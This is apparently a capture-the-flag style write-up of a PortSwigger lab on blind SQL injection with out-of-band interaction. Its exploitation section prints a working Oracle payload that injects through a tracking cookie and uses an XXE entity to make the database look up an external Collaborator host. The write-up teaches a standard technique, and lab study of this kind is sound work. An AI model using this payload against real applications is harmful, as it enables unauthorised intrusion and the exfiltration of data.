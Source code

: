 # Blind SQL injection with out-of-band interaction | Mar 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band), you'll learn: Blind SQL injection with out-of-band interaction! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a DNS lookup to Burp Collaborator.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301120135.png)

**Cookies:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301120205.png)

When we go to `/`, it'll set a new cookie called `TrackingId`.

This looks like a tracking cookie for analytics.

The SQL query may looks like this:

```sql
SELECT TrackingId FROM tracking WHERE TrackingId = '<our_cookie_value>'
```

**That being said, we can try to perform SQL injection.**

**To do so, I'll try to trigger an SQL query error:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301120405.png)

However, it seems like we don't recieve any response when we modified the tracking cookie.

Maybe carries out the SQL query **asynchronously**?

The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

The easiest and most reliable way to use out-of-band techniques is using [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator). This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to [Burp Suite Professional](https://portswigger.net/burp/pro) with no configuration required.

### Blind SQL injection with DNS lookup

**In the PortSwigger's [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), there's a DNS lookup payloads:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301120657.png)

Since we don't know which DBMS (Database Management System) is using, we need to try them all one by one.

**First, go to Burp Suite's Collaborator and click "Copy to clipboard":**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301120850.png)

**Then, we'll try Oracle XXE vulnerability to trigger a DNS lookup:**
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual
```

**Payload:**
```sql
1G73QrMQUaCdamOl' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

**The SQL query may become:**
```sql
SELECT TrackingId FROM tracking WHERE TrackingId = '1G73QrMQUaCdamOl' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual--'
```

Let's send the payload!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301124253.png)

> Note: The payload needs to be URL encoded.

**Burp Suite's Collaborator:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301124332.png)

We've recieved 4 DNS lookups! Which means the `TrackingId` cookie is vulnerable to out-of-band SQL injection!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301124416.png)

# What we've learned:

1. Blind SQL injection with out-of-band interaction